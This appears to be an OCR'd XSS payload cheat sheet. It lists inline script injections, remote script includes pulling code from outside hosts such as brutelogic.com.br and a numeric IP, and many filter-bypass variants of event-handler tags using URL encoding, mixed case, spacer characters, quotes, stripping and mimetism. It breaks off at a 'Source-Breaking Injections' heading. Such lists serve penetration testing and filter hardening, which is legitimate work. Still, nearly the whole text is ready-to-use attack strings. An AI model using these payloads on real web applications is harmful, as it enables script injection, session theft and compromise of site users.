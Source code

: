 Code Reuse Inline Script

<script>alert(1)//
<script>alert(1)<!–
Code Reuse Regular Script
<script src=//brutelogic.com.br/1.js>
<script src=//3334957647/1>

Filter Bypass Generic Tag + Handler

Encoding

<x onxxx=1
<%78 onxxx=1
<x %6Fnxxx=1
<x o%6Exxx=1
<x on%78xx=1
<x onxxx%3D1

Mixed Case

<X onxxx=1
<x OnXxx=1
<X OnXxx=1 

Doubling

<x onxxx=1 onxxx=1

Spacers

<x/onxxx=1
<x%09onxxx=1
<x%0Aonxxx=1
<x%0Conxxx=1
<x%0Donxxx=1
<x%2Fonxxx=1

Quotes

<x 1='1'onxxx=1
<x 1="1"onxxx=1

Stripping

<[S]x onx[S]xx=1
[S] = stripped char or string

Mimetism

<x </onxxx=1
<x 1=">" onxxx=1
<http://onxxx%3D1/

Generic Source Breaking

<x onxxx=alert(1) 1='

Source-Breaking Injections
